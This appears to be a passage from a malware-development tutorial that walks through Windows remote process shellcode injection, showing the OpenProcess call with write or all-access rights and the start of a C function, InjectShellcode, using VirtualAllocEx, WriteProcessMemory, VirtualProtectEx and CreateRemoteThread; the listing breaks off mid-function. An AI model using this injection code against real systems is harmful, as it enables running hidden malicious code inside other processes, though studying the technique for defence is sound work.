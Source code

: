 
## The OpenProcess Function
---

Bellow is the function's syntax, as show in Microsoft's documentation:

```c
HANDLE OpenProcess(
  [in] DWORD dwDesiredAccess,  // The access to the process object.
  [in] BOOL  bInheritHandle,   // If TRUE, created processes inherit from this process
  [in] DWORD dwProcessId       // The identifier of the local process to be opened.
);
```

In the `do while` example above, the `dwDesiredAccess` parameter is set to `PROCESS_VM_WRITE | PROCESS_VM_OPERATION`, which are required to later allocate memory and operate on the target process and  write our shellcode.

We could also use `PROCESS_ALL_ACCESS`, which will give us all possible access rights, and the function call would look like the following:

```c
if ((hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, aProcesses[i])) != NULL) {
	// ...
}
```


## Injecting Shellcode to Remote Process
---

For the injection part of the malware, `InjectShellcode` will utilize commonly used functions for a standard remote process injection and will take as parameters a handle to a process (`HANDLE hProcess`), a pointer to our shellcode buffer (`PBYTE pShellcode`) and the size of the shellcode (`SIZE_T sSizeOfShellcode`).

The steps for the injection are:
1. Allocating memory to the remote process for writing the shellcode using `VirtualAllocEx`. We set the protection parameter to `PAGE_READWRITE` since we're only reading/writing to that memory region.

2. Using `WriteProcessMemory` we write to that remote process using it's handle, `hProcess` and cleaning the shellcode from our local process by overwriting the buffer with `0`s using `memset`.

3. To run the shellcode, we make the allocated buffer of the remote process executable by setting the protection to `PAGE_EXECUTE_READ` for the `VirtualProtectEx` function.

4. Finally, we use `CreateRemoteThread` to launch the shellcode, as well as using the `WaitForSingleObject` function to make sure the main thread doesn't exit before the shellcode gets executed.



```c
BOOL InjectShellcode(HANDLE hProcess, PBYTE pShellcode, SIZE_T sSizeOfShellcode) {

	printf("[+] Starting Shellcode injection ... \n");

	PVOID   pShellcodeAddress  = NULL;
	DWORD   dwOldProtection    = NULL;
	SIZE_T  sBytesWritten      = NULL;
	HANDLE  hThread            = NULL;

	printf("[+] Allocating memory of size %d to remote process ... \n", sSizeOfShellcode);
	pShellcodeAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (pShellcodeAddress != NULL) {
		printf("[+] Trying to write shellcode to allocated memory at: 0x%p\n", pShellcodeAddress);

```